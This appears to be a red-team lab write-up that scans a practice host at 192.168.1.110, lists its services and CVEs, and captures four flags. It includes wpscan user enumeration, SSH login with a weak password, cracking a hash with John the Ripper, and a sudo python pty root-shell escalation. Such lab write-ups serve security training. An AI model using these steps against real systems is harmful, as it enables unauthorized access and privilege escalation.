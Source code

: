 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:
``` bash
$ nmap -sV -O 192.168.1.110

Nmap scan report for 192.168.1.110
Host is up (0.00069s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 (Debian)
111/tcp open  rpcbind     2-4 (RPC 100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH
  - Apache Web Server
  - rpcbind
  - SMB

The following vulnerabilities were identified on each target:
- Target 1
  - Network response to ping requests
  - Weak password for Michael
  - Python sudo privilege access for user Steven
  - CVE-2015-5600 - OpenSSH keyboard-interactive authentication brute force vulnerability (MaxAuthTries bypass)
  - CVE-2019-10098 - Apache HTTP server 2.4.0 to 2.4.39 Redirect Vuln.

- ![](images/ssh-vuln.png)
- ![](images/port80_01.png)
- ![](images/port80_02.png)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
- `flag1.txt`: `flag1{b9bbcb33e11b80be759c4e844862482d}`
  - **Exploit Used**
    - View source on `http://192.168.1.110/service.html`
    - ![](images/flag01.png)


- `flag2.txt`: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
  - **Exploit Used**
    - `wpscan --url http://192.168.1.110/wordpress -enumerate u` revealed users Michael and Steven.
    - `ssh michael@192.168.1.110` password `michael` (weak password)

    - ![](images/flag02.png)


- `flag3.txt`: `flag3{afc01ab56b50591e7dccf93122770cd2}`
  - **Exploit Used**
    - ![](images/mysql-password.png)

    - After finding the MySQL DB username and password, I was able to log in and find flag03 and a password hash for Steven
    - ![](images/flag03.png)  
    - I used JohnTheRipper to crack the password hash for Steven
    - ![](images/steven-password.png)


- `flag4.txt`: `flag4{715dea6c055b9fe3337544932f2941ce}`
  - **Exploit Used**
    - Steven had root privileges for python so I was able to get root access with the following code. ```sudo python -c 'import pty; pty.spawn("bin/bash")' ```

    - ![](images/flag04.png)
